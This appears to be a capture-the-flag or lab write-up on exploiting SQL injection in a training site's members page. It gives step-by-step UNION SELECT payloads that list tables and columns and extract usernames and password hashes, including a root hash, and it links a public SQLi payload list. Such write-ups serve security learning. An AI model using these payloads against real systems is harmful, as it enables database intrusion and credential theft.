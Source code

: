 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all tables and columns searching for some words we found password and user columns on db_default .
```
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this : 2b3366bcfd44f540e630d4dc2b9b06d9
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users LIMIT 2
```
5. Now we try to access users table to get db_default info and we found this : root : 3bf1114a986ba87ed28fc1b5884fc2f8
```
 5 union SELECT username,password FROM Member_Brute_Force.db_default LIMIT 2
```

